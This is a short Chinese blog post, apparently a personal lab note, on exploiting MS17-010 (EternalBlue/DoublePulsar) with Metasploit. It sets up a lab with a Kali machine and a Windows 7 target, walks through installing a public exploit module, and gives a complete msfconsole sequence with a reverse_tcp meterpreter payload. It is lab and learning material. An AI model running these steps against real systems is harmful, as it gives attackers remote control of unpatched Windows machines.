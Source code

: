 ```yaml
---
layout: post
title: MS17-010
categories: [blog ]
tags: [系统安全, ]
description: TheShadowBrokers放出一大批NSA（美国国家安全局）“方程式组织” (Equation Group)使用的极具破坏力的黑客工具
---
```

> 本来不做记录，后爆发全球规模蠕虫
### 环境
> python 2.6.6  
> wine32  
> 靶机win7有360 ip 192.168.1.123  
> kali  ip 192.168.1.120  

### msf配置
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit/
```
after 相应的文件copy到/usr/share/metasploit-framework/modules/exploits/windows/smb/  我把文件更名为ms17-010
修改.rb文件为相应路径

OptString.new('ETERNALBLUEPATH',[true,'Path directory of Eternalblue','/usr/share/metasploit-framework/modules/exploits/windows/smb/deps/']),
		OptString.new('DOUBLEPULSARPATH',[true,'Path directory of Doublepulsar','/usr/share/metasploit-framework/modules/exploits/windows/smb/deps/']),
  
OptString.new('PROCESSINJECT',[true,'Name of process to inject into (Change to lsass.exe for x64)','wlms.exe'])

这一句'wlms.exe'有人修改为'explorer',我在测试时会不稳定断开连接

### msf利用
```bash

use exploit/windows/smb/ms17-010
set PAYLOAD windows/x64/meterpreter/reverse_tcp  
set rhost 192.168.1.123  
set lhost 192.168.1.120  
show option  
exploit  
```
### 内网穿透
[浮萍链接](http://fuping.site/2017/04/21/MS17-010-Vulnerability-Detection-And-Ngrok/)